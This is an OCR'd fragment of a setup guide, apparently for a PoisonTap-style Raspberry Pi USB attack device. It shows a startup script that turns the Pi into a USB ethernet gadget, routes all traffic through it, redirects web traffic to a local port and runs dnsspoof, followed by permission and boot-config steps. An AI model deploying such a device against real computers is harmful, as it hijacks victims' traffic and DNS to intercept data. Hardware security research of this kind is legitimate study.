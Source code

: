             echo \$SELF > functions/ecm.usb0/dev_addr
            ln -s functions/ecm.usb0 configs/c.1/
            ls /sys/class/udc > UDC
            ifup usb0
            ifconfig usb0 up
            /sbin/route add -net 0.0.0.0/0 usb0
            /etc/init.d/isc-dhcp-server start
            /sbin/sysctl -w net.ipv4.ip_forward=1
            /sbin/iptables -t nat -A PREROUTING -i usb0 -p tcp --dport 80 -j REDIRECT --to-port 1337
            /usr/bin/screen -dmS dnsspoof /usr/sbin/dnsspoof -i usb0 port 53

            #/usr/bin/screen -dmS node /usr/bin/nodejs/home/pi/poisontap/pi_poisontap.js

1.  chmod 755 /home/pi/cydbertap/pi_startup.sh

1.  chown pi:pi /home/pi/cydbertap/pi_startup.sh

1.  Finally, open up the /boot/cmdline.txt. Be careful with this file, it is very picky with its formatting! Each parameter is separated  by a single space (it does not use newlines). Insert modules-load=dwc2,g_ether after rootwait.
